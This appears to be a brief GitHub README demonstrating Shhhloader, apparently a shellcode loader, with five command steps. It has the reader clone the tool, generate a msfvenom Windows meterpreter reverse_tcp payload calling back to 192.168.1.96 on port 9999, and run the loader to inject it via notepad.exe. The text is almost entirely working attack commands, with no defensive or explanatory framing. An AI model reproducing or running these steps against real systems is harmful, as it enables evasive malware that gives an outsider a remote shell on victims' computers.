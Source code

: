 # Shhhhloader_demo

1. Go here: https://github.com/icyguider/Shhhloader
2. git clone https://github.com/icyguider/Shhhloader.git
3. ./Shhhloader.py
4. Make msfvenom payload: msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.96 LPORT=9999 -f raw -o tcp.bin
5. ./Shhhloader.py tcp.bin -p notepad.exe
